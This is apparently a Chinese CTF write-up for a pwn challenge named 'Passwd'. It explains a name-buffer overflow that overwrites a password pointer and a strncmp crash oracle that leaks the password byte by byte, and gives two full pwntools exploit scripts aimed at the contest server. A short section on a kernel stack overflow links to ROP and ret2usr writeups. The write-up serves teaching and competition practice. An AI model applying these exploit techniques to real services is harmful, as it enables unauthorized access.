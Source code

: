 # pwn

## Passwd（简单的栈溢出，有两种思路可以利用）

### 一．Hint: 解题思路二: 文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧

#### 解题思路(直接拿郭子仪同学的wp放上来了)

首先nop掉反调试, 恢复结构体   

![struct](assert/struct.png)

其中passwd指向我们读入的数据。
然后函数名字也rename一下。

![fun](assert/fun.png)

然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。

![vul](assert/vul.png)

程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。

#### 最终结果

![res](assert/res.png)

#### exp

``` python
# encoding=UTF-8
from pwn import *

context.terminal='/bin/zsh'
context.arch = "amd64"
context.log_level = "debug"
elf_path = "./passwd"
elf = ELF(elf_path)
libc = ELF("./libc-2.23.so")
ip = "www.povcfe.site"
port = 10001
#io = remote(ip, port)
#io = process(elf_path)

def input_name(buf):
    io.sendlineafter("Name:", buf)

def input_size(size):
    io.sendlineafter("Length Of New Passwd:", str(size))

def input_passwd(buf):
    io.sendlineafter("Passwd:", buf)

yes = "yes"
no = "no"
def yes_no(s):
    io.sendlineafter("yes/no?:", s)

sw = "1"
ac = "2"
def choice(c):
    io.sendlineafter("[2]:Start A New Article", c)


def input_ac(buf):
    io.sendlineafter("Article(end with '#'):", buf)

while 1:
    #io = remote(ip, port)
    
    io = process(elf_path)
    input_name("abcd")
    input_size(24)
    input_passwd("123456")
    choice(sw)
    yes_no(yes)
    
    buf = "admin"
    buf += "\x00"*0xb   # 填充至name结束，16个
    buf += "\xa0\xd2"   # 开始覆盖passwd指针的低位
    input_name(buf)
    # pause()
    # attach(io)
    buf = "a"*0x14
    input_passwd(buf)
    pause()
    attach(io)

    io.interactive()
```

#### 郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的

### 二．Hint: 解题思路一: 考虑一下strncmp函数是怎么判断字符串相等的?

#### 前置知识

strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。

#### 解体思路

通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破

#### exp

``` python
from pwn import *
import time
import sys

# sh = process("./passwd")
# ip = sys.argv[1]
#sh = remote("172.16.202.302", 8888)
sh = remote("geekgame.scuctf.com", 10001)
# context.log_level = "debug"

def login(name, passwd_len, passwd):
    sh.recvuntil("[+] Input Your Name:\n")
    sh.sendline(name)
    if(name == "admin"):
        sh.recvuntil("[+] Input Admin Passwd:")
        sh.sendline(passwd)
    else:
        sh.recvuntil("[+] Please Input The Length Of New Passwd:\n")
        sh.sendline(str(passwd_len))
        sh.recvuntil("[+] Input The New Passwd:\n")
        sh.sendline(passwd)


def switch_account(name, passwd):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("1")
    sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n")
    sh.sendline("yes")
    sh.recvuntil("[+] Input The New Name:\n")
    sh.sendline(name)
    sh.recvuntil("[+] Input The Passwd:\n")
    sh.sendline(passwd)


def new_article(context):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("2")
    sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n")
    sh.sendline(context)


passwd = b""
num = 0
addr = 0x600000004000

ppp = 0

while(num < 19):
    login(b"povcfe", 22, b"aaa")
    new_article(b"aaaa#")
    addr = addr - 1
    payload = b"admin" + b"a"*11 + p64(addr)
    while(1):
        ppp = ppp+1
        for i in range(0x20, 0x80):
            try:
                try_passwd = passwd + chr(i).encode()
                switch_account(payload, try_passwd)

            except:
                num = num + 1
                passwd = passwd + chr(i-1).encode()
                log.success("one byte is: " + chr(i-1))
                break

        # sh = process("./passwd")
        sh.close()
        # sh = remote("172.16.202.132", 8888)
        sh = remote("geekgame.scuctf.com", 10001)
        break

login(b"povcfe", 22, b"aaa")
new_article("bbb#")

log.success(str(ppp))
addr = 0x600000000000
while(1):
    payload = b"admin" + b"a"*11 + p64(addr)
    for i in range(0x20, 0x80):

        try_passwd = passwd + chr(i).encode()
        log.success(b"try passwd is: " + try_passwd)
        switch_account(payload, try_passwd)
        time.sleep(1)
        sh.sendline(b"echo bll")
        res = sh.recvline()
        if b"bll" in res:
            sh.interactive()
            log.success("over")
            break
    log.success(b"passwd is: " + try_passwd)
break
```

## Kernel_rop（简单的内核栈溢出）

### 一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全[经典ROP](https://www.povcfe.site/2020/05/16/kernel-rop/#more)

### 二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) [ret2usr](https://www.povcfe.site/2020/05/17/kernel-ret2usr/#more)